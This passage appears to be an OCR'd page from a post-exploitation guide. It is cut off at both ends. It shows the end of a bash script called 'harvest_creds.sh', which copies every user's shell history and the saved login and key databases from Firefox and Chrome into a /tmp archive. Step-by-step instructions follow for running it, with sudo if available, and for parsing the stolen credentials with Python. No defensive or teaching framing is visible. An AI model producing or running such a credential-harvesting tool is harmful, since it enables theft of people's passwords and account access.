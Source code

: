 ```bash
# Extract history files
echo "[*] Gathering shell history..."
mkdir -p $OUTPUT_DIR/history
find /home -name ".bash_history" -o -name ".zsh_history" -exec cp {} $OUTPUT_DIR/history/ \; 2>/dev/null

# Extract browser profiles for offline analysis
echo "[*] Gathering browser profiles..."
mkdir -p $OUTPUT_DIR/browsers
for user in $(ls /home); do
    if [ -d "/home/$user/.mozilla" ]; then
        mkdir -p $OUTPUT_DIR/browsers/firefox_$user
        cp -r /home/$user/.mozilla/firefox/*default*/logins.json $OUTPUT_DIR/browsers/firefox_$user/ 2>/dev/null
        cp -r /home/$user/.mozilla/firefox/*default*/key*.db $OUTPUT_DIR/browsers/firefox_$user/ 2>/dev/null
        cp -r /home/$user/.mozilla/firefox/*default*/cert*.db $OUTPUT_DIR/browsers/firefox_$user/ 2>/dev/null
    fi
    
    if [ -d "/home/$user/.config/google-chrome" ]; then
        mkdir -p $OUTPUT_DIR/browsers/chrome_$user
        cp -r /home/$user/.config/google-chrome/Default/Login\ Data $OUTPUT_DIR/browsers/chrome_$user/ 2>/dev/null
    fi
done

# Package results
echo "[*] Packaging results..."
ARCHIVE="/tmp/system_$(hostname)_$(date +%Y%m%d).tar.gz"
tar -czf $ARCHIVE -C $(dirname $OUTPUT_DIR) $(basename $OUTPUT_DIR)

# Display results location
echo "[+] Credential harvesting complete!"
echo "[+] Results stored at: $ARCHIVE"
EOF

chmod +x harvest_creds.sh
```

2. **Execute the credential harvesting script**:

```bash
# Run the script with current privileges
./harvest_creds.sh

# Or run with elevated privileges if available
sudo ./harvest_creds.sh
```

3. **Analyze the harvested data**:

```bash
# Extract the archive
tar -xzf /tmp/system_hostname_20230822.tar.gz -C /tmp/

# Parse the JSON output
python3 -m json.tool /tmp/.harvested_20230822120000/lazagne_root.json | less

# Create a summary of discovered credentials
cat > parse_creds.py << 'EOF'
#!/usr/bin/env python3
import json
import sys
import os
```
